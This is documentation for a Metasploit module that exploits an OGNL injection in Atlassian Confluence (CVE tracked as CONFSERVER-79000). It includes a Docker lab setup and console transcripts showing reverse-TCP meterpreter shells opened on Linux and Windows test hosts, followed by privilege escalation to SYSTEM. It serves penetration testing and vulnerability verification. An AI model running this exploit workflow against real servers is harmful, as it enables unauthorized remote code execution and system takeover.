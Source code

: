 ## Vulnerable Application
This module exploits an OGNL injection in Atlassian Confluence servers. A specially crafted URI can be used to evaluate
an OGNL expression resulting in OS command execution.

Confluence versions up to and including 7.18 are vulnerable to this OGNL injection flaw. For more complete information
on affected and fixed versions, see [CONFSERVER-79000][1].

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:7.13.0
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_namespace_ognl_injection`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 7.13.0 in [Docker]

```
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > check
[+] 192.168.159.100:8090 - The target is vulnerable. Successfully tested OGNL injection.
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.100
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:42050) at 2022-06-03 17:14:41 -0400

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : 5052c5eebf8a
OS              : Linux 5.15.0-35-generic #36-Ubuntu SMP Sat May 21 02:24:07 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### Confluence 7.17.2 on Windows Server 2019

```
msf6 > use exploit/multi/http/atlassian_confluence_namespace_ognl_injection
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set TARGET Windows\ Command 
TARGET => Windows Command
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/atlassian_confluence_namespace_ognl_injection) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (200774 bytes) to 192.168.159.10
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.10:49943) at 2022-06-15 17:22:07 -0400

meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > 
```

[1]: https://jira.atlassian.com/browse/CONFSERVER-79000?src=confmacro
